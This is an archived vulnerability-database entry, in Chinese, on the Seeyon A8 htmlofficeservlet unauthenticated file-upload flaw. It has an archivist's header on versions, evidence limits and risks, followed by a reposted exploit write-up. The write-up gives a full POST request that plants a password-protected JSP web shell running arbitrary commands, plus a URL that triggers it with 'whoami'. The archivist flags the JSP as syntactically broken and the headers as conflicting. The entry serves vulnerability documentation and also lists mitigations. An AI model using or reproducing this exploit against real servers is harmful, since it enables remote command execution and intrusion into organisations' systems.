

# 致远A8 htmlofficeservlet上传执行

## 条目说明

- 对象与具体问题：致远A8；htmlofficeservlet上传执行
- 版本、配置及部署条件：6.1sp1、7.0各SP、7.1
- 认证与权限前提：无cookie示例
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- 同系列payload，但JSP把<%if写成<%@if，语法坏；重复Content-Length1251/1122且头间空行
- 正文访问文件/密码较明确可对照另一篇密码错误，但不能选本篇坏请求作主版
- 原cnblogs来源可追溯，合并保留补丁/版本内容

## 操作风险

文件写入/上传示例可能留下文件、覆盖数据或触发脚本执行。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [www.cnblogs.com](https://www.cnblogs.com/Yang34/p/13601466.html)

#### 最近正好有人问，于是乎翻翻笔记发一波

#### 环境为本地复现学习！文章仅供学习交流使用！用于非法目的与本人无关！

#### 漏洞影响

漏洞影响的产品版本包括：  
致远A8-V5协同管理软件 V6.1sp1  
致远A8+协同管理软件V7.0、V7.0sp1、V7.0sp2、V7.0sp3  
致远A8+协同管理软件V7.1

#### 漏洞修补

临时修补方案如下：  
1、 配置URL访问控制策略；  
2、 在公网部署的致远A8+服务器，通过ACL禁止外网对“/seeyon/htmlofficeservlet”路径的访问；  
3、 对OA服务器上的网站后门文件进行及时查杀。  
建议使用致远OA-A8系统的信息系统运营者进行自查，发现存在漏洞后，按照以上方案及时修复。

#### 利用姿势发送如下POST包

```http
POST /seeyon/htmlofficeservlet HTTP/1.1
Host: XXX
Content-Length: 1251
 
 
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:67.0) Gecko/20100101 Firefox/67.0
Pragma: no-cache
Content-Length: 1122
 
DBSTEP V3.0     355             0               666             DBSTEP=OKMLlKlV
OPTION=S3WYOSWLBSGr
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
CREATEDATE=wUghPB3szB3Xwg66
RECORDID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66
<%@ page language="java" import="java.util.*,java.io.*" pageEncoding="UTF-8"%><%!public static String excuteCmd(String c) {StringBuilder line = new StringBuilder();try {Process pro = Runtime.getRuntime().exec(c);BufferedReader buf = new BufferedReader(new InputStreamReader(pro.getInputStream()));String temp = null;while ((temp = buf.readLine()) != null) {line.append(temp+"\n");}buf.close();} catch (Exception e) {line.append(e.getMessage());}return line.toString();} %><%@if("asasd3344".equals(request.getParameter("pwd"))&&!"".equals(request.getParameter("cmd"))){out.println("<pre>"+excuteCmd(request.getParameter("cmd")) + "</pre>");}else{out.println(":-)");}%>6e4f045d4b8506bf492ada7e3390d7ce 
```

> 请求原样保留：同一归档代码块含 `Content-Length: 1251` 和 `Content-Length: 1122`，且头部之间有空行，存在消息边界与长度歧义。这里保留原始证据，不能将其视为已验证可用的请求；本文没有证明请求走私或特定解析结果。

#### 浏览器访问即可getshell

[http://XXX/seeyon/test123456.jsp?pwd=asasd3344&cmd=whoami](http://XXX/seeyon/test123456.jsp?pwd=asasd3344&cmd=whoami)

#### 截图



---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
